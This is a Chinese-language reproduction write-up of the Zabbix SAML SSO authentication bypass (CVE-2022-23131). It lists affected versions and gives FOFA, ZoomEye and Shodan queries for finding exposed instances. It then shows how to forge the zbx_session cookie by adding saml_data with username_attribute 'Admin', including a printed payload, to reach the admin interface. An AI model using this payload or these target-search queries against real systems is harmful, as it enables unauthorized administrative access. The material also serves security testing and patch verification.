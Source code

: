 # Zabbix SAML身份绕过漏洞 CVE-2022-23131

## 漏洞描述

Zabbix 是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

Zabbix 由两部分构成，Zabbix Server与可选组件 Zabbix Agent。Zabbix Server 可以通过 SNMP、Zabbix Agent、Ping、端口监视等方法提供对远程服务器/网络状态的监视、数据收集等功能，它可以运行在 Linux、Solaris、HP-UX、AIX、Free BSD、Open BSD、OS X等平台上。

在启用 SAML SSO 身份验证（非默认）的情况下，未经身份验证的攻击者可以通过修改Cookie数据，绕过身份认证获得对 Zabbix 前端的管理员访问权限。

## 漏洞影响

```
Zabbix 4.0.36
Zabbix 5.4.0
Zabbix 5.4.8
Zabbix 6.0.0alpha1
```

## 网络测绘

```
app="ZABBIX-监控系统" && body="saml"
```

### Zoomeye

```
title:"ZABBIX"
```

### Shodan

```
title="ZABBIX"
```

## 环境搭建

环境搭建：

- https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131

登录页面

![image-20220525164121127](images/202205251641192-16855817173634.png)

## 漏洞复现

检测该漏洞的主要步骤为：

- 获取 Set-Cookie 数据 zbx_session 参数的值

- 通过 URL 解码和 Base64 解码获得 zbx_session 参数 json 格式数据

- 通过在 json 中添加 saml_data 和 username_attribute 参数后重新 Base64 编码和 URL 编码构造 Payload

- 在请 HTTP 求头中添加构造的 Payload，然后请求 index_sso.php

- 若 HTTP 响应头中包含 Location 头，说明存在漏洞，可直接进入管理界面

获取 Set-Cookie 数据，通过 URL 解码和 Base64 解码，得到如下数据：

```
{"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

构造如下 Payload：

```
{"saml_data":{"username_attribute":"Admin"},"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

在 Burpsuite 中将通过 Base64 编码和 URL 编码后的 zbx_session 参数带入请求 index_sso.php，成功登录。

也可以在浏览器中替换Cookie，点击 SAML登录。

![image-20220525165011891](images/202205251650948.png)



